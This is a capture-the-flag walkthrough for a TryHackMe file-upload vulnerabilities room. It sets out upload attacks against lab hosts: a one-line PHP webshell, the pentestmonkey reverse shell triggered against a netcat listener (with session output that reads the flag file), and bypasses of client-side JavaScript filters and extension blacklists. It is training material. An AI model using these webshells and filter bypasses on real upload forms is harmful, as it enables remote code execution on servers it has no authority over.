

# Upload Vulnerabilities

- [Room information](#room-information)
- [Solution](#solution)
- [References](#references)

## Room information

```text
Type: Walkthrough
Difficulty: Easy
OS: N/A
Subscription type: Premium
Description: Tutorial room exploring some basic file-upload vulnerabilities in websites
```

Room link: [https://tryhackme.com/room/uploadvulns](https://tryhackme.com/room/uploadvulns)

## Solution

### Task 1 - Getting Started

**Please read and follow the instructions in this task carefully**.  
If you skip over this task and encounter connectivity errors as a result, the Discord volunteers reserve the right to ignore you.

The instructions in this task will help you to configure the [hosts file](https://www.ionos.co.uk/digitalguide/server/configuration/hosts-file/) of your device. The hosts file is used for local domain name mapping, bypassing DNS. In short, it allows you to map IP addresses to domain names locally without relying on a DNS server to resolve the IP address for you. This is useful in environments such as TryHackMe where DNS is not available as it allows us to manually map one or more domains / subdomains to an IP address of our choosing. Being able to access content using a domain makes it possible to (amongst many other advantages) use name-based virtual hosting -- commonly shortened to "vhosting" -- to serve multiple websites from a single webserver: a feature which is used extensively in this room.

It is very important that you understand these concepts before continuing. If any of the above information does not make sense, please do some background reading (e.g., here) into how domain names, IP addresses, and webserver VHosts work before continuing with the content of this room.

-----------------------------------

First up, let's deploy the machine to give it a few minutes to boot.

Once you've clicked deploy, you'll need to configure your own computer to be able to connect.

If you've successfully deployed the machine then the following code blocks will already have the IP address filled in. If any of them have "MACH​INE_IP" in them, then you still need to deploy the machine, and the following instructions **will not work**.

-----------------------------------

Using your favourite text editor in an administrative session, open the hosts file on your device.

- On Linux and MacOS the hosts file can be found at `/etc/hosts`.
- On Windows the hosts file can be found at `C:\Windows\System32\drivers\etc\hosts`.

On Linux or MacOS you will need to use `sudo` to open the file for writing. In Windows you will need to open the file with "Run as Administrator".

Add the following line in at the end of the file:

`10.10.52.151    overwrite.uploadvulns.thm shell.uploadvulns.thm java.uploadvulns.thm annex.uploadvulns.thm magic.uploadvulns.thm jewel.uploadvulns.thm demo.uploadvulns.thm`

If you're using Windows, open an Administrator Powershell window by searching for "Powershell", right clicking on "Windows Powershell", then clicking "Run as administrator".

Type the following command and hit enter:

```powershell
Add-Content C:\Windows\System32\drivers\etc\hosts "10.10.52.151   overwrite.uploadvulns.thm shell.uploadvulns.thm java.uploadvulns.thm annex.uploadvulns.thm magic.uploadvulns.thm jewel.uploadvulns.thm"
```

When you finish the room, use this command to revert the hosts file back to normal:

```powershell
(Get-Content C:\Windows\System32\drivers\etc\hosts | select -Skiplast 1) | Set-Content C:\Windows\System32\drivers\etc\hosts
```

Note: If you have done this step before then you **must** remove the previous entry. There should only ever be one line in the file that contains the above URLs. For example, the following example **will not work**:

```text
10.10.10.10    overwrite.uploadvulns.thm shell.uploadvulns.thm java.uploadvulns.thm annex.uploadvulns.thm magic.uploadvulns.thm jewel.uploadvulns.thm demo.uploadvulns.thm
10.10.52.151    overwrite.uploadvulns.thm shell.uploadvulns.thm java.uploadvulns.thm annex.uploadvulns.thm magic.uploadvulns.thm jewel.uploadvulns.thm demo.uploadvulns.thm
```

When you terminate your instance of the upload vulns target machine, make sure to remove this line!

It goes without saying that you **will not** get the same IP address if you redeploy the target machine later. This means that any existing entries in your hosts file when you redeploy will point at the wrong address (ergo, connectivity error). If you add a duplicate line without removing the original, as mentioned above, you will also get a connectivity error. Removing it as soon as you terminate the machine gives you a clean slate and removes these possibilities for error.

-----------------------------------

You should now be able to access the virtual machine, so let's get started!

Note: If you find that you cannot access the websites, this is nearly always due to one of:
A) Having duplicate entries in your host file
B) Having an anonymising VPN active alongside your TryHackMe VPN connection pack

**Final note**: When accessing any of the virtual machines in your browser, use `http://overwrite.uploadvulns.thm` rather than just `overwrite.uploadvulns.thm`!

### Task 2 - Introduction

The ability to upload files to a server has become an integral part of how we interact with web applications. Be it a profile picture for a social media website, a report being uploaded to cloud storage, or saving a project on Github; the applications for file upload features are limitless.

Unfortunately, when handled badly, file uploads can also open up severe vulnerabilities in the server. This can lead to anything from relatively minor, nuisance problems; all the way up to full Remote Code Execution (RCE) if an attacker manages to upload and execute a shell. With unrestricted upload access to a server (and the ability to retrieve data at will), an attacker could deface or otherwise alter existing content -- up to and including injecting malicious webpages, which lead to further vulnerabilities such as XSS or CSRF. By uploading arbitrary files, an attacker could potentially also use the server to host and/or serve illegal content, or to leak sensitive information. Realistically speaking, an attacker with the ability to upload a file of their choice to your server -- with no restrictions -- is very dangerous indeed.

The purpose of this room is to explore some of the vulnerabilities resulting from improper (or inadequate) handling of file uploads. Specifically, we will be looking at:

- Overwriting existing files on a server
- Uploading and Executing Shells on a server
- Bypassing Client-Side filtering
- Bypassing various kinds of Server-Side filtering
- Fooling content type validation checks

Completing the [web enumeration](https://tryhackme.com/room/webenumerationv2) (or at least the Gobuster section) and [What the Shell](https://tryhackme.com/room/introtoshells) rooms would be a good idea before attempting the content in this room.

Let's begin!

### Task 3 - General Methodology

So, we have a file upload point on a site. How would we go about exploiting it?

As with any kind of hacking, enumeration is key. The more we understand about our environment, the more we're able to do with it. Looking at the source code for the page is good to see if any kind of client-side filtering is being applied. Scanning with a directory bruteforcer such as Gobuster is usually helpful in web attacks, and may reveal where files are being uploaded to; Gobuster is no longer installed by default on Kali, but can be installed with `sudo apt install gobuster`. Intercepting upload requests with [Burpsuite](https://tryhackme.com/room/burpsuitebasics) will also come in handy. Browser extensions such as [Wappalyser](https://www.wappalyzer.com/download) can provide valuable information at a glance about the site you're targetting.

With a basic understanding of how the website might be handling our input, we can then try to poke around and see what we can and can't upload. If the website is employing client-side filtering then we can easily look at the code for the filter and look to bypass it (more on this later!). If the website has server-side filtering in place then we may need to take a guess at what the filter is looking for, upload a file, then try something slightly different based on the error message if the upload fails. Uploading files designed to provoke errors can help with this. Tools like Burpsuite or OWASP Zap can be very helpful at this stage.

We'll go into a lot more detail about bypassing filters in later tasks.

### Task 4 - Overwriting Existing Files

When files are uploaded to the server, a range of checks should be carried out to ensure that the file will not overwrite anything which already exists on the server. Common practice is to assign the file with a new name -- often either random, or with the date and time of upload added to the start or end of the original filename. Alternatively, checks may be applied to see if the filename already exists on the server; if a file with the same name already exists then the server will return an error message asking the user to pick a different file name. File permissions also come into play when protecting existing files from being overwritten. Web pages, for example, should not be writeable to the web user, thus preventing them from being overwritten with a malicious version uploaded by an attacker.

If, however, no such precautions are taken, then we might potentially be able to overwrite existing files on the server. Realistically speaking, the chances are that file permissions on the server will prevent this from being a serious vulnerability. That said, it could still be quite the nuisance, and is worth keeping an eye out for in a pentest or bug hunting environment.
Let's go through an example before you try this for yourself.

Warning

Please note that `demo.uploadvulns.thm` will be used for all demonstrations; however, **this site is not available in the uploaded VM**. It is purely for demonstrative purposes.

Attempts to access this subdomain will have amusing consequences... you have been warned.

In the following image we have a web page with an upload form:


You may need to enumerate more than this for a real challenge; however, in this instance, let's just take a look at the source code of the page:


Inside the red box, we see the code that's responsible for displaying the image that we saw on the page. It's being sourced from a file called "spaniel.jpg", inside a directory called "images".

Now we know where the image is being pulled from -- can we overwrite it?

Let's download another image from the internet and call it `spaniel.jpg`. We'll then upload it to the site and see if we can overwrite the existing image:


The result will look like this:


And our attack was successful! We managed to overwrite the original `images/spaniel.jpg` with our own copy.

-----------------------------------

Now, let's put this into practice.

Open your web browser and navigate to `overwrite.uploadvulns.thm`. Your goal is to overwrite a file on the server with an upload of your own.

#### What is the name of the image file which can be overwritten?

Hint: Check the Source Code

Access `http://overwrite.uploadvulns.thm/` and View source:

```html
<!DOCTYPE html>
<html>
    <head>
        <title>File Overwrite</title>
        <script src="js/jquery-3.5.1.min.js"></script>
        <script src="js/script.js"></script>
        <link type="text/css" rel="stylesheet" href="css/style.css">
        <link type="text/css" rel="stylesheet" href="css/cantarell.css" charset="utf-8">
        <link rel="shortcut icon" type="image/x-icon" href=favicon.ico>
        <meta http-equiv="cache-control" content="max-age=0" />
        <meta http-equiv="cache-control" content="no-cache" />
        <meta http-equiv="expires" content="0" />
        <meta http-equiv="expires" content="Tue, 01 Jan 1980 1:00:00 GMT" />
        <meta http-equiv="pragma" content="no-cache" />
    </head>
    <body>
        
        <main>
            <h1><strong>File Overwriting</strong></h1>
            <button class="Btn" id="uploadBtn">Select File</button>
            <form method="post" enctype="multipart/form-data">
                <input type="file" name="fileToUpload" id="fileSelect">
                <input class="Btn" type="submit" value="Upload" name="submit" id="submitBtn">
            </form>
            <p style="display: none;" id="uploadtext"></p>
                                </main>
    </body>
</html>
```

Answer: mountains.jpg

#### Overwrite the image. What is the flag you receive?

Select a new file called `mountains.jpg`, Upload it and we get the flag.



Flag: `THM{<REDACTED>}`

### Task 5 - Remote Code Execution

It's all well and good overwriting files that exist on the server. That's a nuisance to the person maintaining the site, and may lead to some vulnerabilities, but let's go further; let's go for RCE!

Remote Code Execution (as the name suggests) would allow us to execute code arbitrarily on the web server. Whilst this is likely to be as a low-privileged web user account (such as `www-data` on Linux servers), it's still an extremely serious vulnerability. Remote code execution via an upload vulnerability in a web application tends to be exploited by uploading a program written in the same language as the back-end of the website (or another language which the server understands and will execute). Traditionally this would be PHP, however, in more recent times, other back-end languages have become more common (Python Django and Javascript in the form of Node.js being prime examples). It's worth noting that in a routed application (i.e. an application where the routes are defined programmatically rather than being mapped to the file-system), this method of attack becomes a lot more complicated and a lot less likely to occur. Most modern web frameworks are routed programmatically.

There are two basic ways to achieve RCE on a webserver when exploiting a file upload vulnerability: **webshells**, and **reverse/bind shells**. Realistically a fully featured reverse/bind shell is the ideal goal for an attacker; however, a webshell may be the only option available (for example, if a file length limit has been imposed on uploads, or if firewall rules prevent any network-based shells). We'll take a look at each of these in turn. As a general methodology, we would be looking to upload a shell of one kind or another, then activating it, either by navigating directly to the file if the server allows it (non-routed applications with inadequate restrictions), or by otherwise forcing the webapp to run the script for us (necessary in routed applications).

#### Web shells

Let's assume that we've found a webpage with an upload form:


Where do we go from here? Well, let's start with a gobuster scan:


Looks like we've got two directories here -- `uploads` and `assets`. Of these, it seems likely that any files we upload will be placed in the "uploads" directory. We'll try uploading a legitimate image file first. Here I am choosing our cute dog photo from the previous task:


Now, if we go to `http://demo.uploadvulns.thm/uploads` we should see that the spaniel picture has been uploaded!


Click on `spaniel.jpg` to view it


Ok, we can upload images. Let's try a webshell now.

As it is, we know that this webserver is running with a PHP back-end, so we'll skip straight to creating and uploading the shell. In real life, we may need to do a little more enumeration; however, PHP is a good place to start regardless.

A simple webshell works by taking a parameter and executing it as a system command. In PHP, the syntax for this would be:

```php
<?php
    echo system($_GET["cmd"]);
?>   
```

This code takes a GET parameter and executes it as a system command. It then echoes the output out to the screen.

Let's try uploading it to the site, then using it to show our current user and the contents of the current directory:


Success!

We could now use this shell to read files from the system, or upgrade from here to a reverse shell. Now that we have RCE, the options are limitless. Note that when using webshells, it's usually easier to view the output by looking at the source code of the page. This drastically improves the formatting of the output.

#### Reverse Shells

The process for uploading a reverse shell is almost identical to that of uploading a webshell, so this section will be shorter. We'll be using the ubiquitous Pentest Monkey reverse shell, which comes by default on Kali Linux, but can also be downloaded [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php). You will need to edit line 49 of the shell. It will currently say `$ip = '127.0.0.1';  // CHANGE THIS`
 -- as it instructs, change `127.0.0.1` to your TryHackMe tun0 IP address, which can be found on the access page. You can ignore the following line, which also asks to be changed. With the shell edited, the next thing we need to do is start a Netcat listener to receive the connection. `nc -lvnp 1234`:


Now, let's upload the shell, then activate it by navigating to `http://demo.uploadvulns.thm/uploads/shell.php`. The name of the shell will obviously be whatever you called it (`php-reverse-shell.php` by default).

The website should hang and not load properly -- however, if we switch back to our terminal, we have a hit!


Once again, we have obtained RCE on this webserver. From here we would want to stabilise our shell and escalate our privileges, but those are tasks for another time. For now, it's time you tried this for yourself!

-----------------------------------

Navigate to `http://shell.uploadvulns.thm` and complete the questions for this task.


#### Run a Gobuster scan on the website using the syntax from the screenshot above. What directory looks like it might be used for uploads?

Scan with gobuster for directories

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/Upload_Vulnerabilities]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://shell.uploadvulns.thm              
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shell.uploadvulns.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/resources            (Status: 301) [Size: 334] [--> http://shell.uploadvulns.thm/resources/]
/assets               (Status: 301) [Size: 331] [--> http://shell.uploadvulns.thm/assets/]
/server-status        (Status: 403) [Size: 286]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

We have two possible directories: `/resources` and `/assets`.

Upload a file and try to access it under `/resorces` works so that must be it!

Answer: /resources

#### Get either a web shell or a reverse shell on the machine. What's the flag in the /var/www/ directory of the server?

First we update the port and IP in [pentestmonkey's php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

Next we start a netcat listener

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/Upload_Vulnerabilities]
└─$ nc -lvnp 12345
listening on [any] 12345 ...

```

Then we upload the reverse shell and verify that it uploaded correctly by accessing `http://shell.uploadvulns.thm/resources`.

The reverse shell should be present in the directory listing. Trigger it (`php-reverse-shell.php`) by clicking on it.

Finally, we go back to our netcat listener and get the flag

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/Upload_Vulnerabilities]
└─$ nc -lvnp 12345
listening on [any] 12345 ...
connect to [10.14.61.233] from (UNKNOWN) [10.10.63.3] 56934
Linux f300b6aced54 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 14:00:51 up 4 min,  0 users,  load average: 0.48, 1.14, 0.59
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ $ uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ ls -la /var/www             
total 28
drwxr-xr-x 1 root     root     4096 May 22  2020 .
drwxr-xr-x 1 root     root     4096 May 22  2020 ..
-rw-rw-rw- 1 root     root       38 May 22  2020 flag.txt
drwxr-xr-x 1 www-data www-data 4096 May 24  2020 html
$ cat /var/www/flag.txt
THM{<REDACTED>}
$ exit
```

Flag: `THM{<REDACTED>}`

### Task 6 - Filtering

Up until now we have largely been ignoring the counter-defences employed by web developers to defend against file upload vulnerabilities. Every website that you've successfully attacked so far in this room has been completely insecure. It's time that changed. From here on out, we'll be looking at some of the defence mechanisms used to prevent malicious file uploads, and how to circumvent them.

-----------------------------------

First up, let's discuss the differences between **client-side** filtering and **server-side** filtering.

When we talk about a script being "**Client-Side**", in the context of web applications, we mean that it's running in the user's browser as opposed to on the web server itself. JavaScript is pretty much ubiquitous as the client-side scripting language, although alternatives do exist.  Regardless of the language being used, a client-side script will be run in your web browser. In the context of file-uploads, this means that the filtering occurs before the file is even uploaded to the server. Theoretically, this would seem like a good thing, right? In an ideal world, it would be; however, because the filtering is happening on our computer, it is trivially easy to bypass. As such client-side filtering by itself is a highly insecure method of verifying that an uploaded file is not malicious.

Conversely, as you may have guessed, a **server-side** script will be run on the server. Traditionally PHP was the predominant server-side language (with Microsoft's ASP for IIS coming in close second); however, in recent years, other options (C#, Node.js, Python, Ruby on Rails, and a variety of others) have become more widely used. Server-side filtering tends to be more difficult to bypass, as you don't have the code in front of you. As the code is executed on the server, in most cases it will also be impossible to bypass the filter completely; instead we have to form a payload which conforms to the filters in place, but still allows us to execute our code.

-----------------------------------

With that in mind, let's take a look at some different kinds of filtering.

#### Extension Validation

File extensions are used (in theory) to identify the contents of a file. In practice they are very easy to change, so actually don't mean much; however, MS Windows still uses them to identify file types, although Unix based systems tend to rely on other methods, which we'll cover in a bit. Filters that check for extensions work in one of two ways. They either blacklist extensions (i.e. have a list of extensions which are **not** allowed) or they whitelist extensions (i.e. have a list of extensions which **are** allowed, and reject everything else).

#### File Type Filtering

Similar to Extension validation, but more intensive, file type filtering looks, once again, to verify that the contents of a file are acceptable to upload. We'll be looking at two types of file type validation:

**MIME validation**: MIME (Multipurpose Internet Mail Extension) types are used as an identifier for files -- originally when transfered as attachments over email, but now also when files are being transferred over HTTP(S). The MIME type for a file upload is attached in the header of the request, and looks something like this:


MIME types follow the format `<type>/<subtype>`. In the request above, you can see that the image "spaniel.jpg" was uploaded to the server. As a legitimate JPEG image, the MIME type for this upload was "image/jpeg". The MIME type for a file can be checked client-side and/or server-side; however, as MIME is based on the extension of the file, this is extremely easy to bypass.

**Magic Number validation**: Magic numbers are the more accurate way of determining the contents of a file; although, they are by no means impossible to fake. The "magic number" of a file is a string of bytes at the very beginning of the file content which identify the content. For example, a PNG file would have these bytes at the very top of the file: `89 50 4E 47 0D 0A 1A 0A`.


Unlike Windows, Unix systems use magic numbers for identifying files; however, when dealing with file uploads, it is possible to check the magic number of the uploaded file to ensure that it is safe to accept. This is by no means a guaranteed solution, but it's more effective than checking the extension of a file.

#### File Length Filtering

File length filters are used to prevent huge files from being uploaded to the server via an upload form (as this can potentially starve the server of resources). In most cases this will not cause us any issues when we upload shells; however, it's worth bearing in mind that if an upload form only expects a very small file to be uploaded, there may be a length filter in place to ensure that the file length requirement is adhered to. As an example, our fully fledged PHP reverse shell from the previous task is 5.4Kb big -- relatively tiny, but if the form expects a maximum of 2Kb then we would need to find an alternative shell to upload.

#### File Name Filtering

As touched upon previously, files uploaded to a server should be unique. Usually this would mean adding a random aspect to the file name, however, an alternative strategy would be to check if a file with the same name already exists on the server, and give the user an error if so. Additionally, file names should be sanitised on upload to ensure that they don't contain any "bad characters", which could potentially cause problems on the file system when uploaded (e.g. null bytes or forward slashes on Linux, as well as control characters such as `;` and potentially unicode characters). What this means for us is that, on a well administered system, our uploaded files are unlikely to have the same name we gave them before uploading, so be aware that you may have to go hunting for your shell in the event that you manage to bypass the content filtering.

#### File Content Filtering

More complicated filtering systems may scan the full contents of an uploaded file to ensure that it's not spoofing its extension, MIME type and Magic Number. This is a significantly more complex process than the majority of basic filtration systems employ, and thus will not be covered in this room.

-----------------------------------

It's worth noting that none of these filters are perfect by themselves -- they will usually be used in conjunction with each other, providing a multi-layered filter, thus increasing the security of the upload significantly. Any of these filters can all be applied client-side, server-side, or both.

Similarly, different frameworks and languages come with their own inherent methods of filtering and validating uploaded files. As a result, it is possible for language specific exploits to appear; for example, until PHP major version five, it was possible to bypass an extension filter by appending a null byte, followed by a valid extension, to the malicious `.php` file. More recently it was also possible to inject PHP code into the exif data of an otherwise valid image file, then force the server to execute it. These are things that you are welcome to research further, should you be interested.

#### What is the traditionally predominant server-side scripting language?

Answer: PHP

#### When validating by file extension, what would you call a list of accepted extensions (whereby the server rejects any extension not in the list)?

Answer: Whitelist

#### What MIME type would you expect to see when uploading a CSV file?

From `https://en.wikipedia.org/wiki/Media_type`

Answer: text/csv

### Task 7 - Bypassing Client-Side Filtering

We'll begin with the first (and weakest) line of defence: **Client-Side Filtering**.

As mentioned previously, client-side filtering tends to be extremely easy to bypass, as it occurs entirely on a machine that you control. When you have access to the code, it's very easy to alter it.

There are four easy ways to bypass your average client-side file upload filter:

1. **Turn off Javascript in your browser** -- this will work provided the site doesn't require Javascript in order to provide basic functionality. If turning off Javascript completely will prevent the site from working at all then one of the other methods would be more desirable; otherwise, this can be an effective way of completely bypassing the client-side filter.
2. **Intercept and modify the incoming page**. Using Burpsuite, we can intercept the incoming web page and strip out the Javascript filter before it has a chance to run. The process for this will be covered below.
3. **Intercept and modify the file upload**. Where the previous method works before the webpage is loaded, this method allows the web page to load as normal, but intercepts the file upload after it's already passed (and been accepted by the filter). Again, we will cover the process for using this method in the course of the task.
4. **Send the file directly to the upload point**. Why use the webpage with the filter, when you can send the file directly using a tool like `curl`? Posting the data directly to the page which contains the code for handling the file upload is another effective method for completely bypassing a client side filter. We will not be covering this method in any real depth in this tutorial, however, the syntax for such a command would look something like this: `curl -X POST -F "submit:<value>" -F "<file-parameter>:@<path-to-file>" <site>`. To use this method you would first aim to intercept a successful upload (using Burpsuite or the browser console) to see the parameters being used in the upload, which can then be slotted into the above command.
We will be covering methods two and three in depth below.

We will be covering methods two and three in depth below.

-----------------------------------

Let's assume that, once again, we have found an upload page on a website:


As always, we'll take a look at the source code. Here we see a basic Javascript function checking for the MIME type of uploaded files:


In this instance we can see that the filter is using a whitelist to exclude any MIME type that isn't `image/jpeg`.

Our next step is to attempt a file upload -- as expected, if we choose a JPEG, the function accepts it. Anything else and the upload is rejected.

Having established this, let's start Burpsuite and reload the page. We will see our own request to the site, but what we really want to see is the server's response, so right click on the intercepted data, scroll down to "Do Intercept", then select "Response to this request":


When we click the "Forward" button at the top of the window, we will then see the server's response to our request. Here we can delete, comment out, or otherwise break the Javascript function before it has a chance to load:


Having deleted the function, we once again click "Forward" until the site has finished loading, and are now free to upload any kind of file to the website.

It's worth noting here that Burpsuite will not, by default, intercept any external Javascript files that the web page is loading. If you need to edit a script which is not inside the main page being loaded, you'll need to go to the "**Proxy**" tab at the top of the Burpsuite window, choose "**Proxy Settings**" and then under the "**Request interception rules**" section, edit the condition of the first line to remove `^js$|`:


-----------------------------------

We've already bypassed this filter by intercepting and removing it prior to the page being loaded, but let's try doing it by uploading a file with a legitimate extension and MIME type, then intercepting and correcting the upload with Burpsuite.

Having reloaded the webpage to put the filter back in place, let's take the reverse shell that we used before and rename it to be called "**shell.jpg**". As the MIME type (based on the file extension) automatically checks out, the Client-Side filter lets our payload through without complaining:


Once again we'll activate our Burpsuite intercept, then click "Upload" and catch the request:


Observe that the MIME type of our PHP shell is currently `image/jpeg`. We'll change this to `text/x-php`, and the file extension from `.jpg` to `.php`, then forward the request to the server:


Now, when we navigate to `http://demo.uploadvulns.thm/uploads/shell.php` having set up a netcat listener, we receive a connection from the shell!


-----------------------------------

We've covered in detail two ways to bypass a Client-Side file upload filter. Now it's time for you to give it a shot for yourself! Navigate to `http://java.uploadvulns.thm` and bypass the filter to get a reverse shell. Remember that not all client-side scripts are inline! As mentioned previously, Gobuster would be a very good place to start here -- the upload directory name will be changing with every new challenge.

#### What is the flag in /var/www/?

Hint: The script is in the "client-side-filter.js" file. Either prevent this file from being loaded, or read the code to see what MIME type is accepted and bypass the filter using method three.

Make sure Burp is running and the browser is setup to use Burp as its proxy.

Access `http://java.uploadvulns.thm/` and view the HTML source:

```html
<!DOCTYPE html>
<html>
    <head>
        <title>Java!</title>
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <link rel="shortcut icon" type="image/x-icon" href="favicon.ico">
        <link rel="stylesheet" type="text/css" href="assets/css/style.css">
        <link rel="stylesheet" type="text/css" href="assets/css/icons.css">
        <link rel="stylesheet" type="text/css" href="assets/css/indieflower.css">
        <script src="assets/js/jquery-3.5.1.min.js"></script>
        <script src="assets/js/script.js"></script>
        <script src="assets/js/firstload.js"></script>
    
        <script src="assets/js/client-side-filter.js"></script>
        
    </head>
    <body>
        <main>
            <div id="maintext">
                <h1>Café<span id=mug> S </span>Java!</h1>
                <button class="Btn" id="uploadBtn">Select File</button>
                <form method="post" enctype="multipart/form-data">
                    <input type="file" name="fileToUpload" id="fileSelect" style="display:none">
                    <input class="Btn" type="submit" value="Upload" name="submit" id="submitBtn">
                </form>
                <p style="display:none;" id="errorMsg">Invalid File Type</p>
                <p style="display:none;" id="uploadtext"></p>
                <p class="responseMsg" style="display:none;" ></p>
            </div>
        </main>
    </body>
</html>
```

Note the presence of `<script src="assets/js/client-side-filter.js"></script>` which we check next:

```javascript
window.onload = function(){
    var upload = document.getElementById("fileSelect");
    var responseMsg = document.getElementsByClassName("responseMsg")[0];
    var errorMsg = document.getElementById("errorMsg");
    var uploadMsg = document.getElementById("uploadtext");
    upload.value="";
    upload.addEventListener("change",function(event){
        var file = this.files[0];
        responseMsg.style = "display:none;";
        if (file.type != "image/png"){
            upload.value = "";
            uploadMsg.style = "display:none;";
            error();
        } else{
            uploadMsg.innerHTML = "Chosen File: " + upload.value.split(/(\\|\/)/g).pop();
            responseMsg.style="display:none;";
            errorMsg.style="display:none;";
            success();
        }
    });
};
```

Note that only the MIME-type `image/png` are allowed.

Make sure Burp is configured not to exclude the `.js` extension when capturing requests. This is done on the "**Proxy**" tab, "**Proxy Settings**" and then under the "**Request interception rules**" section where `^js$` should be removed on the first line.

Set **intercept on** in Burp and **Reload** the home page and all javascripts by holding `SHIFT` and clicking the browsers Reload-button.

When the request `GET /assets/js/client-side-filter.js` comes, right-click and select `Do intercept` -> `Response to this request`.

Change the `!=` to `==` on this line:

```javascript
        if (file.type == "image/png"){
```

Forward the response and then set intercept to **Off**.

Do a gobuster scan to identify the upload directory:

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/Upload_Vulnerabilities]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://java.uploadvulns.thm 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://java.uploadvulns.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 329] [--> http://java.uploadvulns.thm/images/]
/assets               (Status: 301) [Size: 329] [--> http://java.uploadvulns.thm/assets/]
/server-status        (Status: 403) [Size: 285]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

The directory is probably `/images`.

Start a netcat listener:

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/Upload_Vulnerabilities]
└─$ nc -lvnp 12345
listening on [any] 12345 ...

```

Then we upload the reverse shell and verify that it uploaded correctly by accessing `http://shell.uploadvulns.thm/images`.  
The reverse shell should be present in the directory listing. Trigger it (`php-reverse-shell.php`) by clicking on it.

Get the flag back at the netcat listener

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/Upload_Vulnerabilities]
└─$ nc -lvnp 12345
listening on [any] 12345 ...
connect to [10.14.61.233] from (UNKNOWN) [10.10.63.3] 50404
Linux a73553061b26 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 15:28:46 up  1:32,  0 users,  load average: 0.43, 0.41, 0.24
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cat /var/www/flag.txt
THM{N<REDACTED>}
$ exit
```

Flag: `THM{<REDACTED>}`

### Task 8 - Bypassing Server-Side Filtering: File Extensions

Time to turn things up another notch!

Client-side filters are easy to bypass -- you can see the code for them, even if it's been obfuscated and needs processed before you can read it; but what happens when you can't see or manipulate the code? Well, that's a server-side filter. In short, we have to perform a lot of testing to build up an idea of what is or is not allowed through the filter, then gradually put together a payload which conforms to the restrictions.

For the first part of this task we'll take a look at a website that's using a blacklist for file extensions as a server side filter. There are a variety of different ways that this could be coded, and the bypass we use is dependent on that. In the real world we wouldn't be able to see the code for this, but for this example, it will be included here:

```php
<?php
    //Get the extension
    $extension = pathinfo($_FILES["fileToUpload"]["name"])["extension"];
    //Check the extension against the blacklist -- .php and .phtml
    switch($extension){
        case "php":
        case "phtml":
        case NULL:
            $uploadFail = True;
            break;
        default:
            $uploadFail = False;
    }
?>
```

In this instance, the code is looking for the last period (`.`) in the file name and uses that to confirm the extension, so that is what we'll be trying to bypass here. Other ways the code could be working include: searching for the first period in the file name, or splitting the file name at each period and checking to see if any blacklisted extensions show up. We'll cover this latter case later on, but in the meantime, let's focus on the code we've got here.

We can see that the code is filtering out the `.php` and `.phtml` extensions, so if we want to upload a PHP script we're going to have to find another extension. The [Wikipedia page for PHP](https://en.wikipedia.org/wiki/PHP) gives us a few common extensions that we can try; however, there are actually a variety of other more rarely used extensions available that webservers may nonetheless still recognise. These include: `.php3`, `.php4`, `.php5`, `.php7`, `.phps`, `.php-s`, `.pht` and `.phar`. Many of these bypass the filter (which only blocks.php and .phtml), but it appears that the server is configured not to recognise them as PHP files, as in the below example:


This is actually the default for Apache2 servers, at the time of writing; however, the sysadmin may have changed the default configuration (or the server may be out of date), so it's well worth trying.

Eventually we find that the `.phar` extension bypasses the filter -- and works -- thus giving us our shell:


-----------------------------------

Let's have a look at another example, with a different filter. This time we'll do it completely black-box: i.e. without the source code.

Once again, we have our upload form:


